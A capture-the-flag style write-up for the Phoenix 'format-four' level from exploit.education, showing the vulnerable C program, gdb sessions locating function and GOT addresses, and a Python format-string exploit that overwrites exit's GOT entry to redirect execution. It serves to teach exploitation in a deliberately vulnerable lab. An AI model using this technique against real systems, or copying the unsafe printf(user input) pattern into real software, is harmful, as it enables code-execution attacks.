 # FORMAT FOUR

## SOURCE CODE

```c
/*
 * phoenix/format-four, by https://exploit.education
 *
 * Can you affect code execution? Once you've got congratulations() to
 * execute, can you then execute your own shell code?
 *
 * Did you get a hair cut?
 * No, I got all of them cut.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

void bounce(char *str) {
  printf(str);
  exit(0);
}

void congratulations() {
  printf("Well done, you're redirected code execution!\n");
  exit(0);
}

int main(int argc, char **argv) {
  char buf[4096];

  printf("%s\n", BANNER);

  if (read(0, buf, sizeof(buf) - 1) <= 0) {
    exit(EXIT_FAILURE);
  }

  bounce(buf);
}
```

## STRATEGY
The goal is to take control of the program flow and perform the *`congratulations`* function, but this time we cannot use the return address as the bounce function executes an exit system call. However, we can use the exit, in fact, it is defined in the standard library and therefore its location is inserted by the dynamic linker in the GOT table (global offset table) and the address of the GOT entry with the exit is in the PLT table (procedures linkage table). Using a string format attack we can overwrite the entry in the GOT, so the exit will jump into the PLT then into the GOT and finally instead of the exit routine it will jump to the *`congratulations`* function. This time we will let python do the math.
**ATTENTION**: to mitigate these types of attacks there is RelRO (RELocation Read-Only) protection which makes the GOT read-only, in this case, it is disabled, therefore the attack will be successful.

## EXPLOIT

1. Retrive *`congratulations`* address with gdb:
```gdb
gef➤  disas congratulations 
Dump of assembler code for function congratulations:
   0x08048503 <+0>:	push   ebp
   0x08048504 <+1>:	mov    ebp,esp
   0x08048506 <+3>:	sub    esp,0x8
   0x08048509 <+6>:	sub    esp,0xc
   0x0804850c <+9>:	push   0x80485d0
   0x08048511 <+14>:	call   0x8048310 <puts@plt>
   0x08048516 <+19>:	add    esp,0x10
   0x08048519 <+22>:	sub    esp,0xc
   0x0804851c <+25>:	push   0x0
   0x0804851e <+27>:	call   0x8048330 <exit@plt>
End of assembler dump.

```
address: 0x08048503


2. Retrive exit address in the GOT with gdb:
```gdb
gef➤  disas bounce
Dump of assembler code for function bounce:
   0x080484e5 <+0>:	push   ebp
   0x080484e6 <+1>:	mov    ebp,esp
   0x080484e8 <+3>:	sub    esp,0x8
   0x080484eb <+6>:	sub    esp,0xc
   0x080484ee <+9>:	push   DWORD PTR [ebp+0x8]
   0x080484f1 <+12>:	call   0x8048300 <printf@plt>
   0x080484f6 <+17>:	add    esp,0x10
   0x080484f9 <+20>:	sub    esp,0xc
   0x080484fc <+23>:	push   0x0
   0x080484fe <+25>:	call   0x8048330 <exit@plt>
End of assembler dump.
gef➤  disas 0x8048330
Dump of assembler code for function exit@plt:
   0x08048330 <+0>:	jmp    DWORD PTR ds:0x80497e4
   0x08048336 <+6>:	push   0x18
   0x0804833b <+11>:	jmp    0x80482f0
End of assembler dump.
```
exit location in the GOT: 0x80497e4

If you want to see what's inside, you have to do that runtime, so set a breakpoint in, run, inspect the address:
```gdb
gef➤  x 0x80497e4
0x80497e4 <exit@got.plt>:	0xf7f7f543

```


3. Like in the previous challenge we need to know the buffer position in the stack at printf. We can do it inspecting the stack with %x and format string vulnerability:
```shell
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "AAAA" + ".%08x"*15' | ./format-four 
Welcome to phoenix/format-four, brought to you by https://exploit.education
AAAA.00000000.00000000.00000000.f7f81cf7.f7ffb000.ffffd638.0804857d.ffffc630.ffffc630.00000fff.00000000.41414141.3830252e.30252e78.252e7838
```
Buffer is in the 12th position


4. Final python program:
```python
import struct

address_got = 0x80497e4

buffer = struct.pack("I", address_got)
buffer += "JUNK"
buffer += struct.pack("I", address_got + 2)
buffer += "%08x"*10 + "%" + str(0x8503 - len(buffer) - 80) + "x" + "%n"
buffer += "%" + str(0x10804 - 0x8503) +  "x" + "%n"
print buffer
```

**EXPLANATION**: before printing the buffer we print 10 argument with *`%08x`*. This give us 10 argument, each with 8 characters/numbers, so we can calculate how many extra bytes subtract. 10 (argument) x 8 (bytes) = 80 ----> str(0x8503 - len(buffer) - 80).
